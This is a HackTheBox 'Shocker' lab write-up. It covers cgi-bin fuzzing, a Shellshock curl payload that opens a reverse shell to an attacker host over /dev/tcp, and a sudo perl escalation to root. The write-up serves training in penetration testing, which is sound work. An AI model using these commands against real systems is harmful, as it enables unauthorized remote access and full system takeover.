







# HackTheBox - Shocker

## Enumeration

I started with a simple portscan.

We see an open web server and a SSH server on port 2222.

I started to take a closer look at the web server.

But except a funny creature there was nothing to see.

The name of the box already gave me an idea that we were dealing with a __Shellshock__ vulnerability.

Nevertheless, I ended up in long fuzzing from the web-root directory.

FFUF did not list `cgi-bin`.

By manual testing I saw later that this directory does exist.

`ffuf -w raft-medium-words.txt -u http://<IP>/cgi-bin/FUZZ -ic -e .pl,.cgi,.sh,.py,.php`

Now I finally found something.

## User

I searched for a POC using curl for Shellshock and got a positive result right away.

I started a listener with netcat and set the following command for the reverse shell:

`curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4242 0>&1" http://<MACHINE_IP>/cgi-bin/user.sh`

I was logged in as user `shelly` and got the user flag.

## Root

The privelege escalation was done quickly because the first thing I did was `sudo -l` and I saw that we can run `perl` without specifying the password as root.

After a look at [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to perl I knew what I had to do to get the user root.

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`

I was now user `root` and got the flag.

